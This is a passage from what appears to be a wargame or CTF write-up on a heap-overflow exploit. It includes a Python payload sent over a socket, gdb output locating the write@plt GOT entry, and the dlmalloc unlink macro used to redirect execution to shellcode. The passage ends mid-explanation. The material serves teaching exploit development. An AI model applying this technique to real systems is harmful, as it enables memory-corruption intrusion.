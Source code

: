 ```python
ck2 = "FSRDROOT/"
ck2 += struct.pack('I', 0xfffffffc)
ck2 += struct.pack('I', 0xfffffffc)

ck2 += "A" * (128 - (len(ck2)))
s.send(ck2)
```
*here i am using the struct modual to pack my number to little endian*

now we can overwrite some library function's GOT addr to redirect execution to shellcode

we cant overwrite the free GOT address because the binary was staticly linked with the malloc functions
but we have the write function which we can get its get is GOT address's address and overwrite it with pointer to our shellcode.

get the write function's addr

```
(gdb) info functions write
...
0x08048dfc  write
0x08048dfc  write@plt
0x08048f2c  fwrite
0x08048f2c  fwrite@plt
(gdb) disassemble 0x08048dfc
Dump of assembler code for function write@plt:
0x08048dfc <write@plt+0>:       jmp    DWORD PTR ds:0x804d41c
0x08048e02 <write@plt+6>:       push   0x68
0x08048e07 <write@plt+11>:      jmp    0x8048d1c
End of assembler dump.
(gdb)
```
0x804d41c is our pointer we want to write over
with our shellcode pointer which we can place in our second chunk

if take a look at the unlink macro code
```C
#define unlink(P, BK, FD)                                                \
{                                                                        \
  BK = P->bk;                                                            \
  FD = P->fd;                                                            \
  FD->bk = BK;                                                           \
  BK->fd = FD;                                                           \
}
```

which is equivalent to

```
*(next->fd + 12) = next->bk
*(next->bk + 8) = next->fd
```

the first line writes BK to *(FD + 12)
